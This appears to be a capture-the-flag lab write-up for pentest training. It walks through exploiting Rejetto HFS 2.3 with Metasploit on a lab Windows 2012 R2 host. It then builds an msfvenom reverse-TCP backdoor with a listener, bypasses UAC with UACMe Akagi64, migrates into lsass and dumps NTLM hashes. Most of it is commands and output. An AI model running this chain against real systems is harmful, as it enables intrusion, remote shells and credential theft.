








# 🔬UAC Bypass

## Lab 1

> 🔬 [UAC Bypass: UACMe](https://attackdefense.com/challengedetailsnoauth?cid=2208)
>
> - Target IP: `10.4.19.119`
> - **UAC** bypass

- Some useful Win CMD commands

```bash
net user
net localgroup administrators
```

### Enumeration

```bash
nmap 10.4.19.119
```

```bash
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49175/tcp open  unknown
```

- Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.4.19.119
```

```bash
80/tcp open  http    HttpFileServer httpd 2.3
```



- The version can be checked in a browser by opening the link
  - `http://10.4.19.119/`

### Exploitation

```bash
msfconsole -q
```

- Set the target IP as **GLOBAL RHOSTS variable**

```bash
setg RHOSTS 10.4.19.119
```

```bash
search hfs
use exploit/windows/http/rejetto_hfs_exec
options
# Check other options, TARGETURI, Payload options, if necessary
exploit
```

- [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution](https://www.exploit-db.com/exploits/39161)
- [Metasploit rejetto_hfs_exec](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)



- Use `meterpreter` commands to gain more information about the target

```bash
getuid
	Server username: VICTIM\admin

sysinfo
    Computer       : VICTIM
    OS             : Windows 2012 R2 (6.3 Build 9600).
    Architecture   : x64
    System Language: en_US
    Domain         : WORKGROUP
    Logged On Users: 2
    Meterpreter    : x86/windows
```

- Migrate current x86 `meterpreter` session to a x64 process

```bash
pgrep explorer
migrate 2708
```

- Get `admin` user privileges

```bash
getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```



- Verify if `admin` user is part of the local administrators group

```bash
shell
net user
net localgroup administrators

    Alias name   administrators
    Comment   Administrators have complete and unrestricted access to the computer/domain
    Members
    -------------------------------------------------------------------------------
    admin
    Administrator
# "admin" user is a local administrator
```



- In order to run programs or tasks with elevated privileges, UAC bypass is necessary

### UAC Bypass & Privesc

- [UACMe Akagi](https://github.com/hfiref0x/UACME/tree/master/Source/Akagi) executable is already present on the attack machine

```bash
ls /root/Desktop/tools/UACME/
	Akagi64.exe
```

- Generate a `meterpreter` payload with `msfvenom`

```bash
ip -br -c a
	eth1@if162568  UP  10.10.4.2/24
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > backdoor.exe
```

- Set up a new `msfconsole` session and set up a listener  with `multi/handler`, to receive the connection one the payload is executed on the target
  - set the payload used with `msfvenom` - the `windows/meterpreter/reverse_tcp` one
  - set the LHOST IP and LPORT of the attack machine, based on the `msfvenom` generated payload

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.4.2
set LPORT 1234
run
```

- The `reverse_tcp handler` is listening and ready to receive the connection from the malicious payload
- Head back in the `meterpreter` session already opened

```bash
cd C:\\
mkdir Temp
cd Temp
# or use
# cd C:\\Users\\admin\\AppData\\Local\\Temp

upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```



- UAC would prevent running `backdoor.exe`
- Run `Akagi64.exe` executable with UACMe methor 23

```bash
Akagi64.exe 23 C:\Temp\backdoor.exe
```



- Elevated `meterpreter` session should be received on the listener



- Migrate to a `NT AUTHORITY\SYSTEM` service

```bash
ps
ps -S lsass.exe
	692
migrate 692
```



> 📌 **Privileges successfully elevated** by bypassing UAC on a system running Windows 2012 R2.

- Dump hashes to get the flag

```bash
hashdump

admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

<details>
<summary>Reveal Flag - admin NTLM Hash is: 🚩</summary>


`4d6583ed4cef81c2f2ac3c88fc5f3da6`

</details>

------

